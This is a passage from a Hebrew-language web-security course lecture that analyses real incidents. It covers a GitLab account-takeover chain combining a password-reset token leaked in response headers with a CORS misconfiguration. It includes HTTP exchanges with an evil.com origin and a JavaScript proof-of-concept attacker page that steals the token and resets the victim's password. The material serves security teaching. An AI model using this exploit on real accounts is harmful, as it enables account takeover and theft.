

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/9 - שרשור חולשות ועולם אמיתי/9.3 - ניתוח אירועים אמיתיים/9.3 - ניתוח אירועים אמיתיים - הרצאה/index.html · generator: mkdocs

# ניתוח אירועים אמיתיים - Real-World Case Studies

## מבוא

למידה מאירועים אמיתיים היא אחת הדרכים האפקטיביות ביותר לשיפור יכולות מחקר אבטחה. בשיעור זה ננתח שישה מקרים מפורסמים - מדוחות Bug Bounty ועד פריצות מסיביות.

## מקרה 1 - השתלטות על חשבונות GitLab

### רקע

חוקר אבטחה מצא שרשרת חולשות ב-GitLab שאפשרה השתלטות על כל חשבון בפלטפורמה.

### הפירוט הטכני

#### חולשה א - Password Reset Token Leak

כשמשתמש ביקש איפוס סיסמה, ה-token נשלח לא רק במייל אלא גם הוחזר בheaders התגובה:

```http
POST /users/password HTTP/1.1
Host: gitlab.com
Content-Type: application/json

{
  "user": {"email": "victim@example.com"}
}

HTTP/1.1 200 OK
X-Request-Id: abc123
Set-Cookie: _gitlab_session=xyz...
...reset_password_token=LEAKED_TOKEN...
```

#### חולשה ב - CORS Misconfiguration

ב-GitLab היתה הגדרת CORS שאפשרה קריאה של headers תגובה ממקור חיצוני:

```http
GET /api/v4/user HTTP/1.1
Host: gitlab.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: X-Request-Id, ...
```

#### שרשרת הexploit

```
1. Attacker triggers a password reset request for the victim via CORS
2. The token comes back in the response headers
3. The CORS misconfiguration allows reading the headers
4. Attacker uses the token to reset the password
5. Attacker logs into the victim's account
```

![איור המדגים את שרשרת ההשתלטות ב-GitLab שבה דליפת token איפוס והגדרת CORS פרוצה מאפשרות לתוקף לקרוא את ה-token ולהשתלט על החשבון](../../../images/illustrations/webadv-9-3-gitlab-chain.svg)

```javascript
// PoC - Attacker page
async function exploitGitlab(victimEmail) {
  // Step 1: request a password reset
  const resetResponse = await fetch('https://gitlab.com/users/password', {
    method: 'POST',
    credentials: 'include',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({user: {email: victimEmail}})
  });

  // Step 2: extract the token from the headers
  const headers = Object.fromEntries(resetResponse.headers.entries());
  const resetToken = extractToken(headers);

  // Step 3: change the password with the token
  await fetch('https://gitlab.com/users/password', {
    method: 'PUT',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({
      user: {
        reset_password_token: resetToken,
        password: 'attacker_password',
        password_confirmation: 'attacker_password'
      }
    })
  });

  console.log('[+] Account takeover complete');
}
```
